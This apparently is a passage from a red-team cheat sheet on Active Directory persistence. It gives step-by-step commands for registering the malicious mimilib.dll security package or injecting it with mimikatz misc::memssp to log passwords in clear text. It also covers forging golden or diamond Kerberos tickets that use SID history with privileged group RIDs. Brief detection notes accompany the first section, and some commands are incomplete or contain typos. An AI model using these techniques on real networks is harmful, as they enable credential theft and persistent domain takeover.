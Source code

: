 <link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="mm">
    <table id="mm_list" class="sortable">
      <tr><th>_repo</th><th>_last_pushed</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='activedirectory'></a>activedirectory

### <a name='custom-ssp'></a>custom-ssp

🔑 KEYPOINTS :

- drop the dhe malicious SSP 'mimilib.dll' in C:\Windows\System32\ to log passwords in clear-text 
- after a reboot all credentials can be found in clear text in C:\Windows\System32\kiwissp.log

▶️ PLAY :
```powershell
# get a list existing LSA Security Packages
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

# add mimilib.dll to the Security Support Provider list (Security Packages)
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"

# can also inject the malicious SSP in memory / won't survive reboots
privilege::debug
misc::memssp
```

🔎️ DETECT :

- Event ID 4657 - Audit creation/change of HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages

### <a name='sid-history'></a>sid-history

🔑 KEYPOINTS :
[T1134.005](https://attack.mitre.org/techniques/T1134/005/)

- ensure continued access to resources from the 'former domain' (target) to the 'ObjectSid' attribute on account objects
- generate a golden or diamond ticket adding a 'privileged group' of the 'former domain' in the '/sids' arg of any 'krb8 tickets forger tool' (rubeus, mimikatz, pypykatz, bettersafetykatz, ...)
- 'privileged group' RID: 512 (Domain Admins), 519 (Enterprise Admins)

▶️ PLAY :
```powershell
# find the SID of the former domain
Get-DomainGroup -Identity "Domain Admins" -Domain dollarcorp.local -Properties ObjectSid

# generate a golden / diamond ticket
```

🔎️ DETECT :
